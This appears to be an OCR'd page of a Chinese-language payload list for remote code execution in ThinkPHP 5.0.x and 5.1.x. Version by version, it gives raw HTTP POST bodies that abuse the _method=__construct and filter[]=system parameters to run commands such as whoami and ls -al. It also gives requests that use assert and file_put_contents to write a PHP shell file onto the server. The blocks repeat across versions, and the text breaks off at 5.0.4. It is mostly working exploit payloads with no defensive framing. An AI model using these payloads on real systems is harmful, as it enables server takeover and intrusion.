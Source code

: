 ```
ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al
```

ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
```
POST /?s=xxx HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```

5.0
debug 无关 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
5.0.1
debug 无关 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
5.0.2
debug 无关 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
5.0.3
debug 无关 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
5.0.4
debug 无关 命令执行
```
POST ?s=index/index
```